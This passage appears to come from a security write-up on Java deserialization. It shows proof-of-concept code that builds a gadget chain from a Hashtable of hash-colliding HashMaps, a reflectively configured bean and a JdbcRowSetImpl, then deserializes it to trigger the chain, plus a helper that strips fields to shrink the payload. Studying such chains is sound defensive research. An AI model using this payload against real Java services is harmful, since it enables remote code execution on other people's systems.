 ```java

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", jdbcRowSet);
        map2.put("zZ", bean);
        map2.put("yy", jdbcRowSet);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", JdbcRowSetImpl.class);
        setFieldValue(bean, "_obj", jdbcRowSet);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(baos);
        objectOutputStream.writeObject(table);
        System.out.println(new String(baos.toByteArray()).length());
        // 反序列化
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }
    static void clear(JdbcRowSetImpl jdbcRowSet) throws Exception {
        setFieldValue(jdbcRowSet, "iMatchColumns", null);
        setFieldValue(jdbcRowSet, "resBundle", null);
        Class<?> clazz = Class.forName(BaseRowSet.class.getName());
        Field fee = clazz.getDeclaredField("listeners");
        fee.setAccessible(true);
        fee.set(jdbcRowSet, null);

        fee = clazz.getDeclaredField("params");
        fee.setAccessible(true);
        fee.set(jdbcRowSet, null);
    }
```

![image-20221111205307144](img/image-20221111205307144.png)
